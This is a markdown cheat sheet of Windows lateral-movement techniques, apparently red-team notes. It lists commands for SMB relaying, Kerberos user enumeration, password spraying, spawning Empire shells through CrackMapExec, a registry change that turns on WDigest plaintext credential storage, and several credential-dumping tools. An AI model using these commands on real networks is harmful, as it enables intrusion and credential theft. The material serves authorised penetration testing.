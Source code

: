 # Windows lateral movement

## PowerView (https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerView)

Gain network situational awareness (part of empire), this basically wraps net\* commands.
* `situational_awareness/network/powerview/get_group_member`
* `situational_awareness/network/powerview/get_user`
* `situational_awareness/network/powerview/get_computer`
* `situational_awareness/network/powerview/find_localadmin_access` 

## Bloodhound (https://github.com/BloodHoundAD/Bloodhound)

Get neat ad relationship graph.
* Sharphound (https://github.com/BloodHoundAD/SharpHound) is an ingestor module for bloodhound written in C# which is faster.
* ACL Information via Bloodhound https://wald0.com/?p=112

## SMB-Relaying

* disable smb, http in responder.conf and set respond-to to targetted machines
* run Responder `python Responder -I ethX`
* run MultiRelay `python MultiRelay.py -t <target> -u ALL`
* responder can be used on captured windows targets via [PowerShell Responder](https://github.com/Kevin-Robertson/Inveigh/blob/master/Scripts/Inveigh.ps1)

## Empire

* inveigh_relay for SMB-Relaying
* invoke_executemsbuild to execute powershell commands via msbuild on local and remote hosts
* invoke_psremoting
* invoke_sqloscmd
* xp_cmdshell
* invoke_wmi
* jenkins_script_console
* invoke_dcom
* invoke_psexec
* invoke_smbexec
* invoke_sshcommand
* invoke_wmi_debugger (debug remote target)
* new_gpo_immediate_task

## Domain user enumeration

Get users via kerberos: 
```
nmap -p88 --script krb5-enum-users --script-args krb5-enum-users.realm="<realmname>",userdb=<localuserlist> <dc ip>
```

## Find where users can log into:

* start empire `./empire --rest --password <pass>`
* change CrackMapExec password in `/root/.cme/cme.conf`
* run cme to spawn shells `cme smb <iprange> -d <domain> -u <username> -p <password> -M empire_exec -o LISTENER=http`


## Shotgun / [Spray](https://github.com/SpiderLabs/Spray)

Sprays password against every user in a domain, for example via owa.
`./spray.sh -owa <ip> <userlist> <passlist> <attemptsperperiod> <lockoutperiod> <domain>`

## Execute powershell through .net with [NoPowerShell](https://github.com/trustedsec/nps_payload)

## Obfuscate Powershell

* hideMyPS (https://github.com/cheetz/hidemyps)

## [Windows-Exploit-Suggester](https://github.com/GDSSecurity/Windows-Exploit-Suggester.git)

* `systeminfo` -> `./python ./windows-exploit-suggester.py -i ./windows.txt -d name.xls`


## Activate LSASS Password storage on windows 10

`reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f` 
(this will require user to login again)

## Extract credentials
[Mimikittenz](https://github.com/putterpanda/mimikittenz.git)
Uses ReadProcessMemory() in order to extract plaintext passwords from target processes such as browsers. (Office365, Outlook, Jira, Github, Bugzilla, Zendisk, Cpanel, Dropbox, Twitter, Facebook, ...)

[LaZagne](https://github.com/AlessandroZ/LaZagne)
Similar to mimikittenz but gets passwords from filesystem instead of ram.

[SessionGopher](https://github.com/fireeye/SessionGopher)
PowerShell-Script that grabs hostnames and saved passwords

From Windows Credential Store:
* Gathering Web Credentials (https://github.com/samratashok/nishang/blob/master/Gather/Get-WebCredentials.ps1)
* Gathering Windows Credentials (https://github.com/peewpw/Invoke-WCMDump/blob/master/Invoke-WCMDump.ps1)


tags: #empire #relaying #bloodhound #powerview 
